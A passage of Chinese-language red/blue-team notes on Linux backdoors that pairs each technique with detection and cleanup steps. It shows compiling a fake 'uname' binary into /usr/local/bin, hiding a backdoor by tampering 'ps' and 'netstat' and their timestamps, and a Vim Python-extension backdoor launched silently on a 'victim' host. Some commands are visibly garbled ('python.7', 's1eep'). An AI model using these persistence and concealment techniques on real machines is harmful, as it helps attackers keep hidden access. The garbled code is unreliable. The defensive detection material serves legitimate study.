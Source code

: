 ```shell
}
EOF

gcc -xc /tmp/.uname.c -o /usr/local/bin/uname

rm /tmp/.uname.c
```

![image-20200402160744134](/Users/dawson0x00/Desktop/红蓝对抗/Linux后门.assets/image-20200402160744134.png)



**检测清除**

```ps -ef|grep socat```

![image-20200402163118926](/Users/dawson0x00/Desktop/红蓝对抗/Linux后门.assets/image-20200402163118926.png)

![image-20200402160835366](/Users/dawson0x00/Desktop/红蓝对抗/Linux后门.assets/image-20200402160835366.png)

#####**改进**：隐藏

执行隐藏脚本的命令shell

> 1. 篡改netstat，ps等命令，已隐藏后门信息(防止被发现) 2 修改所有篡改命令的时间戳
>
> 方案一：*参考脚本附件一*  生产文本ASCTT格式的命令

> 方案二：参考脚本附件二  生成ELF二进制格式的篡改命令

![image-20200402164552482](/Users/dawson0x00/Desktop/红蓝对抗/Linux后门.assets/image-20200402164552482.png)

**检测清除**：

查看 命令发现被篡改，替换删除隐藏的命令

![image-20200402170430404](/Users/dawson0x00/Desktop/红蓝对抗/Linux后门.assets/image-20200402170430404.png)

如果采用方案一，则可file命令查看uname格式文件，发现为ASCII格式 

![image-20200402173844867](/Users/dawson0x00/Desktop/红蓝对抗/Linux后门.assets/image-20200402173844867.png)

### 8. Vim python2扩展后门(待验证)

> 原理：vim安装时默认安装了当前服务器的python扩展，包括python2扩展与python3扩展，利用此扩展，可以使用vim执行python脚本
>
> 检测有无扩展
>
> ```bash
> vim --version |grep python
> ```
>
> ![image-20200329110308780](/Users/dawson0x00/Library/Application Support/typora-user-images/image-20200329110308780.png)

```bash
cd /usr/lib/python.7/site-packages && $(nohup vim -E -c "pyfile dir.py"> /dev/null 2>&1 &)
&& s1eep 2 && -f dir.py  # victim主机上执行,其中dir,py可以是异常的py文件
```
